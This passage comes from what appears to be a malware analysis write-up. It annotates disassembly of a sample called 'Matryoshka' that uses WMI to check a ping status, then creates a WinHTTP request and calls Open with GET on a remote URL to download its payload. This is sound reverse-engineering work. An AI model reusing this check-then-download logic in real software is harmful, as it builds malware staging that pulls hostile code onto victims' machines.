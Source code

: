 **IEnumWbemClassObject::Next** is used to get the result:
```
140002C88 mov     rcx, [rdi+8560h]    ; IEnumWbemClassObject
140002C8F lea     r9, [rdi+8568h]     ; ppIWbemClassObject
140002C96 mov     [r12], esi
140002C9A mov     r8d, 1              ; uCount = 1
140002CA0 or      edx, 0FFFFFFFFh     ; timeout = WBEM_INFINITE
140002CA3 mov     [rsp+20h], r12      ; puReturned (ptr to num items returned)
140002CA8 mov     rax, [rcx]          ; IEnumWbemClassObject vtable
140002CAB call    qword ptr [rax+20h] ; Next
```

And **IWbemClassObject::Get** is used to retrieve the ping *StatusCode*:
```
140002CDF lea     rbx, [rdi+8568h]
140002CE6 mov     rcx, [rbx]          ; IWbemClassObject
140002CE9 lea     r9, [rbp-60h]       ; pVal (returned StatusCode)
...
140002CF4 lea     rdx, [rbp-30h]      ; L"StatusCode"
...
140002CFF xor     r8d, r8d            ; lFlags = 0
...
140002D1C mov     rax, [rcx]          ; IWbemClassObject vtable
140002D1F mov     [rsp+28h], rsi      ; pFlavor = 0
140002D24 mov     [rsp+20h], rsi      ; pType = 0
140002D29 call    qword ptr [rax+20h] ; Get
```

The returned *pVal* is checked for success as you would expect, followed by some cleanup of all the WMI objects.

So far we've made sure we're online, and we've made sure the server is online.  Now we need to download our payload (see [[11]](https://learn.microsoft.com/en-us/windows/win32/winhttp/iwinhttprequest-open) for a typical C++ implementation,) 
which is handled by **MATRYKA_12**. 

Matryoshka gets an **IWinHttpRequest** interface:
```
140001F8F xor     edx, edx                 ; pUnkOuter = 0
140001F91 lea     r12, [rdi+8578h]
140001F98 lea     r9, IWinHttpRequest_UUID
140001F9F mov     [rsp+20h], r12           ; pIWinHttpRequest
140001FA4 lea     rcx, [rsp+60h]           ; WinHTTPRequest_CLSID
140001FA9 lea     r8d, [rdx+1]             ; CLSCTX_INPROC_SERVER
140001FAD call    qword ptr [rdi+8538h]    ; CoCreateInstance
```

Then unsurprisingly, **IWinHttpRequest::Open** is called on the target URL:
```
140001FCA mov     rcx, [r12]               ; IWinHttpRequest
...
140001FD6 lea     r9, [rbp+900h+Async]     ; (Set elsewhere to FALSE)
...
140001FE7 lea     r8, [rbp+900h+URL]       ; L"https://samples.vx...
...
140001FF6 lea     rdx, [rsp+0A00h+Method]  ; L"GET"
...
140002119 mov     rax, [rcx]               ; IWinHttpRequest vtable
...
140002125 call    qword ptr [rax+48h]      ; Open
```
